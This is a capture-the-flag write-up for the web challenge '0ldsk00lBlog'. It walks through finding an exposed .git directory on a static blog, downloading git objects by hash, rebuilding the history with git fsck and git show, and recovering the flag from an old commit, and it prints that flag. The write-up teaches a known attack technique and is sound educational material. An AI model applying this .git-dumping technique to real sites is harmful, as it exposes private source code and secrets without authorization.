


# Writeup for 0ldsk00lBlog (WEB80) (80)

> Solves: 243
> Description: I stumbled across this kinda oldskool blog. I bet it is unhackable, I mean, there's only static HTML.
> Service: https://0ldsk00lblog.ctf.internetwache.org/
  
Website looked like blog in html only, without any php/js etc. Content highlighted the information about `GIT`



We checked url `https://0ldsk00lblog.ctf.internetwache.org/.git`. Result was looking good



Download the default git files:

`https://0ldsk00lblog.ctf.internetwache.org/.git/HEAD`
`https://0ldsk00lblog.ctf.internetwache.org/.git/refs/heads/master`
`https://0ldsk00lblog.ctf.internetwache.org/.git/logs/HEAD`

Logs contained:
```
0000000000000000000000000000000000000000 14d58c53d0e70c92a3a0a5d22c6a1c06c4a2d296 Sebastian Gehaxelt <github@gehaxelt.in> 1453427711 +0100	commit (initial): Initial commit
14d58c53d0e70c92a3a0a5d22c6a1c06c4a2d296 dba52097aba3af2b30ccbc589912ae67dcf5d77b Sebastian Gehaxelt <github@gehaxelt.in> 1453427733 +0100	commit: Added next post
dba52097aba3af2b30ccbc589912ae67dcf5d77b 26858023dc18a164af9b9f847cbfb23919489ab2 Sebastian Gehaxelt <github@gehaxelt.in> 1453427864 +0100	commit: Added another post
26858023dc18a164af9b9f847cbfb23919489ab2 8c46583a968da7955c13559693b3b8c5e5d5f510 Sebastian Gehaxelt <github@gehaxelt.in> 1453427881 +0100	commit: My recent blogpost
```

So we download objects, which exists in logs (remember that, first 2 char is dir)
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/14/d58c53d0e70c92a3a0a5d22c6a1c06c4a2d296`
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/db/a52097aba3af2b30ccbc589912ae67dcf5d77b`
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/26/858023dc18a164af9b9f847cbfb23919489ab2`
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/8c/46583a968da7955c13559693b3b8c5e5d5f510`

We put all downloaded files locally, and execute command with result as described below:
```
$ git fsck --full
Checking object directories: 100% (256/256), done.
 broken link from    tree 3be70be50c04bab8cd5d115da10c3a9c784d6bae
               to    blob 5508adb31bf48ae5fe437bdeba60f83982356934
 broken link from  commit dba52097aba3af2b30ccbc589912ae67dcf5d77b
               to    tree 95a5396e62ca5c9577f761ebe969f52d3b6a9235
 broken link from    tree 1949446afea12e0937044fdabe8cc101c87f7c54
               to    blob 7503402e4d48be951cddda34aae6e01905bb5c98
 broken link from  commit 8c46583a968da7955c13559693b3b8c5e5d5f510
               to    tree 33a5c0876603d7a6f9729637f36030bbabb2afa3
 missing tree 33a5c0876603d7a6f9729637f36030bbabb2afa3
 missing blob 7503402e4d48be951cddda34aae6e01905bb5c98
 missing blob 5508adb31bf48ae5fe437bdeba60f83982356934
 missing tree 95a5396e62ca5c9577f761ebe969f52d3b6a9235
```

Just downloaded missing objects:
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/3b/e70be50c04bab8cd5d115da10c3a9c784d6bae`
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/55/08adb31bf48ae5fe437bdeba60f83982356934`
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/95/a5396e62ca5c9577f761ebe969f52d3b6a9235`
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/19/49446afea12e0937044fdabe8cc101c87f7c54`
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/75/03402e4d48be951cddda34aae6e01905bb5c98`
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/33/a5c0876603d7a6f9729637f36030bbabb2afa3`

Executed `git show`, but missing one more object
```
root@debian:/var/www/iw# git show
fatal: unable to read 25a3f35784188ac1c9bf48a94e5a9c815bcb598c
commit 8c46583a968da7955c13559693b3b8c5e5d5f510
Author: Sebastian Gehaxelt <github@gehaxelt.in>
Date:   Fri Jan 22 02:58:01 2016 +0100

    My recent blogpost
```

Downloaded it:
`https://0ldsk00lblog.ctf.internetwache.org/.git/objects/25/a3f35784188ac1c9bf48a94e5a9c815bcb598c`

And finally `git show` give us a flag.
```
root@debian:/var/www/iw# git show
commit 8c46583a968da7955c13559693b3b8c5e5d5f510
Author: Sebastian Gehaxelt <github@gehaxelt.in>
Date:   Fri Jan 22 02:58:01 2016 +0100

    My recent blogpost

diff --git a/index.html b/index.html
index 5508adb..25a3f35 100644
--- a/index.html
+++ b/index.html
@@ -3,9 +3,15 @@
        <title>0ldsk00l</title>
 </head>
 <body>
-       <h2>2000</h2>
+
+       <h1>Welcome to my 0ldsk00l blog.</h1>
+       <p>
+               Now this is some oldskool classic shit. Writing your blog manually without all this crappy bling-bling CSS / JS stuff.
+       </p>
+
+       <h2>2016</h2>
        <p>
-               Oh, did I say that I like kittens? I like flags, too: IW{G1T_1S_4W3SOME}
+               It's 2016 now and I need to somehow keep track of my changes to this document as it grows and grows. All people are talking about a tool called 'Git'. I think I might give this a try.
        </p>

        <h2>1990-2015</h2>

```